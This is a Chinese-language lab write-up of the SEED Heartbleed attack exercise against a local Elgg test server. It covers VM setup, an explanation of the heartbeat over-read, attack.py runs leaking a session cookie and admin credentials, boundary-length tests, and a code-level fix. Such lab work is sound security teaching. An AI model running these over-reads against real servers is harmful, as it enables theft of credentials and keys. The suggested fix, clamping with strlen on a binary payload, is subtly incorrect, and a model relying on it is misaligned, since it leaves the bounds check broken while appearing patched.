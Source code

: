 # 实验准备

设置两个 VM: 

- 攻击者机器
  - 修改/etc/hosts 文件将服务器名映射到服务器 VM 的 IP 地址，在/etc/hosts 中搜索`127.0.0.1   www.heartbleedlabelgg.com`，将承载ELGG应用程序的服务器VM的实际IP地址替换掉127.0.0.1
- 受害者服务器

# Heartbleed漏洞分析

OpenSSL 库中的一个漏洞，受影响的 OpenSSL 版本范围从1.0.1到1.0.1 f，在一些新版本的OpenSSL中无法复现

心跳协议是如何工作的。心跳协议由两种消息类型组成: HeartbeatRequest 包和 HeartbeatResponse 包。客户端向服务器发送一个 HeartbeatRequest 数据包。当服务器接收到它时，它会发回 HeartbeatResponse 数据包中接收到的消息的副本。目标是保持连接活跃

心脏出血攻击是基于心跳请求的。这个请求只是向服务器发送一些数据，服务器将把这些数据复制到它的响应数据包中，这样所有的数据都会得到回显

**在正常情况下，假设请求包含3个字节的数据“ ABC”，因此长度字段的值为3。服务器将把数据放在内存中，并从数据的开头复制3个字节到它的响应数据包。在攻击场景中，请求可能包含3个字节的数据，但长度字段可能是1003。当服务器构造它的响应数据包时，它从数据的开始进行复制(即“ ABC”) ，但是它复制的是1003个字节，而不是3个字节。这额外的1000种类型显然不是来自请求数据包; 它们来自服务器的私有内存，并且它们可能包含其他用户的信息、密钥和密码**

# Task 1: Launch the Heartbleed Attack

攻击步骤：

- 访问 https://www.heartbleedlabelgg.com

- 以管理员身份登录：admin ：seedelgg
- 添加boby为friend，并给他发送私人信息

多次运行攻击的回显如下

可以看出泄露了cookie、username、密码等关键信息

```
# ./attack.py www.heartbleedlabelgg.com

defribulator v1.20
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: www.heartbleedlabelgg.com:443, 1 times
Sending Client Hello for TLSv1.0
Analyze the result....
Analyze the result....
Analyze the result....
Analyze the result....
Received Server Hello for TLSv1.0
Analyze the result....

WARNING: www.heartbleedlabelgg.com:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@.AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOABC...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.heartbleedlabelgg.com/profile/boby
Cookie: Elgg=vt3bsst6tb3ov6njhj7kcijn42
Connection: keep-alive
If-None-Match: "1449721729"

..*.......a.3v.O.akf.........b3ov6njhj7kcijn42
Connection: keep-alive

_..@?.
..2....{ d..................=1670072367&username=admin&password=seedlggT.;.8A.K..VY."...."

```

# Task 2: Find the Cause of the Heartbleed Vulnerability

比较良性数据包和攻击者代码发送的恶意数据包的结果，以找出心脏出血漏洞的根本原因

> 当 Heartbeat 请求数据包到来时，服务器将解析数据包以获得有效负载和有效负载长度值(如图1所示)。这里，有效负载只是一个3字节的字符串“ ABC”，有效负载长度值正好是3。服务器程序将盲目地从请求数据包中获取这个长度值。然后，它通过指向存储“ ABC”的内存并将负载长度字节复制到响应负载来构建响应数据包。这样，响应数据包将包含一个3字节的字符串“ ABC”。我们可以启动 HeartBleed 攻击，将有效负载长度字段设置为1003。在构建响应数据包时，服务器将再次盲目地采用这个 Payload 长度值。这一次，服务器程序将指向字符串“ ABC”，并将1003字节作为有效负载从内存复制到响应数据包。除了字符串“ ABC”之外，额外的1000字节被复制到响应数据包中，这些数据包可以是内存中的任何内容，比如机密活动、日志信息、密码等等

图示：

![](https://raw.githubusercontent.com/LaPhilosophie/seedlab/main/Heartbleed%20Attack%20Lab/images/The%20Heartbleed%20Attack%20Communication.png)

![](https://raw.githubusercontent.com/LaPhilosophie/seedlab/main/Heartbleed%20Attack%20Lab/images/The%20Benign%20Heartbeat%20Communication.png)

通过命令行参数控制有效载荷长度值，该参数默认是0x4000

```
$./attack.py www.heartbleedlabelgg.com -l 0x015B
$./attack.py www.heartbleedlabelgg.com --length 83
```

Question 2.1: As the length variable decreases, what kind of difference can you observe?

回返的信息长度减少

Question 2.2: As the length variable decreases, there is a boundary value for the input length vari-
able. At or below that boundary, the Heartbeat query will receive a response packet without attaching
any extra data (which means the request is benign). Please find that boundary length. You may need
to try many different length values until the web server sends back the reply without extra data. To
help you with this, when the number of returned bytes is smaller than the expected length, the pro-
gram will print "Server processed malformed Heartbeat, but did not return
any extra data."

边界值：22

回显形式1：

> WARNING: www.heartbleedlabelgg.com:443 returned more data than it should - server is vulnerable!

回显形式2：

> Server processed malformed heartbeat, but did not return any extra data.

# Task 3: Countermeasure and Bug Fix

使用`sudo apt-get update`将 OpenSSL 库更新到最新版本，发现之后的攻击无效

Heartbeat request/response 包格式如下：

 ```c
struct {
    HeartbeatMessageType type; // 1 byte: request or the response
    uint16 payload_length; // 2 byte: the length of the payload
    opaque payload[HeartbeatMessage.payload_length];
    opaque padding[padding_length];
} HeartbeatMessage;
 ```

- type是类型信息
- payload_length是有效负载长度

- payload是实际的有效负载
- 填充字段

> 有效负载的大小应该与有效负载长度字段中的值相同，但是在攻击场景中，有效负载长度可以设置为不同的值

导致bug的语句是`memcpy(bp, pl, payload); `，其中，bp指向buffer，pl指向payload，它会将payload长度的内容从pl复制到bp（正如Alice所说），而这并没有做边界检查

在memcpy之前加上以下语句以修订：

```c
payload = payload_length > strlen(pl) ? strlen(pl) : payload_length ;
```

